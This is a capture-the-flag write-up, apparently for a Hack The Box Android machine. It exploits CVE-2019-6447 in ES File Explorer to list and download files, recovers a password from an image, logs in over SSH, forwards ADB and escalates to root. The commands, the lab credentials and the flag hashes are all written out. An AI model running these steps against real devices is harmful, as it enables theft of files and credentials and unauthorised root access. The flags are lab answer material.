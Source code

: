 # Explore

Android system bug at ES file explore, and use adb to hack the port to get root privilege

## Ifconfig

```
inet 10.10.14.46  netmask 255.255.254.0
inet6 fe80::4d6f:8a37:ee37:6175 
```

## Nmap

> sudo nmap -sC -sV -A 10.10.10.247 | tee [nmap.log](./nmap.log)

Found http 42135 *(ES file explorer)* and 59777 *(minecraft server)* port

## ES file explorer exploit

- Due to [CVE-2019-6447](https://www.cvedetails.com/cve/CVE-2019-6447/)

```
The ES File Explorer File Manager application through 4.1.9.7.4 for Android allows remote attackers to read arbitrary files or execute applications via TCP port 59777 requests on the local Wi-Fi network. This TCP port remains open after the ES application has been launched once, and responds to unauthenticated application/json data over HTTP.
Publish Date : 2019-01-16 Last Update Date : 2021-06-29 
```

- Use [exploit tools](https://www.exploit-db.com/exploits/50070)

> python [esexploit.py](./esexploit.py) listPics 10.10.10.247

```
==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```

> python [esexploit.py](./esexploit.py) getFile 10.10.10.247 [/storage/emulated/0/DCIM/creds.jpg](./exploited/creds.jpg)

```
username: kristi
password: Kr1sT!5h@Rp3xPl0r3!
```

## ssh

- Android open ssh port at 2222

> ssh kristi@10.10.10.247 -p 2222

> whoami

```
u0_a76
```

> cd /sdcard

```
user.txt
f32017174c7c7e8f50c6da52891ae250
```

- Export the port 5555 to localhost

> ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555

And then use adb(Android debug bridge) to connect port 5555 of localhost

> adb connect localhost:5555

```
connected to localhost:5555
```

> adb devices -l

```
List of devices attached
localhost:5555         device product:android_x86_64 model:VMware_Virtual_Platform device:x86_64 transport_id:2
```

- Use adb shell to the serial connect

> adb -s localhost:5555 shell

> whoami

```
shell
```

> su

> whoami

```
root
```

- Find root.txt file

> find / -name root.txt 2> /dev/null

```
/data/root.txt

f04fc82b6d49b41c9b08982be59338c5
```
